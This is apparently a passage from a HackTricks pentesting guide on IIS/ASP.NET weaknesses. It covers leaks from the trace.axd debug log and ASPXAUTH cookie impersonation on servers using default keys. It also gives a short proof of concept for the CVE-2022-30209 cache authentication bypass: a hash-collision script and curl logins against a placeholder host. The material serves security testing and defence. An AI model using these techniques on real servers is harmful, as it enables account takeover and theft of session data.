 ASP.NET include a debugging mode and its file is called `trace.axd`.

It keeps a very detailed log of all requests made to an application over a period of time.

This information includes remote client IP's, session IDs, all request and response cookies, physical paths, source code information, and potentially even usernames and passwords.

[https://www.rapid7.com/db/vulnerabilities/spider-asp-dot-net-trace-axd/](https://www.rapid7.com/db/vulnerabilities/spider-asp-dot-net-trace-axd/)

![Screenshot 2021-03-30 at 13 19 11](https://user-images.githubusercontent.com/31736688/112974448-2690b000-915b-11eb-896c-f41c27c44286.png)

## ASPXAUTH Cookie

ASPXAUTH uses the following info:

* **`validationKey`** (string): hex-encoded key to use for signature validation.
* **`decryptionMethod`** (string): (default “AES”).
* **`decryptionIV`** (string): hex-encoded initialization vector (defaults to a vector of zeros).
* **`decryptionKey`** (string): hex-encoded key to use for decryption.

However, some people will use the **default values** of these parameters and will use as **cookie the email of the user**. Therefore, if you can find a web using the **same platform** that is using the ASPXAUTH cookie and you **create a user with the email of the user you want to impersonate** on the server under attack, you may be able to us**e the cookie from the second server in the first one** and impersonate the user.\
This attacked worked in this [**writeup**](https://infosecwriteups.com/how-i-hacked-facebook-part-two-ffab96d57b19).

## IIS Authentication Bypass with cached passwords (CVE-2022-30209) <a href="#3-iis-authentication-bypass" id="3-iis-authentication-bypass"></a>

A bug in the code **didn't properly check for the password given by the user**, so an attacker whose **password hash hits a key** that is already in the **cache** will be able to login as that user ([full report here](https://blog.orange.tw/2022/08/lets-dance-in-the-cache-destabilizing-hash-table-on-microsoft-iis.html)).

```python
# script for sanity check
> type test.py
def HashString(password):
    j = 0    
    for c in map(ord, password):
        j = c + (101*j)&0xffffffff
    return j

assert HashString('test-for-CVE-2022-30209-auth-bypass') == HashString('ZeeiJT')

# before the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 401 Unauthorized

# after the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 200 OK
```

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>
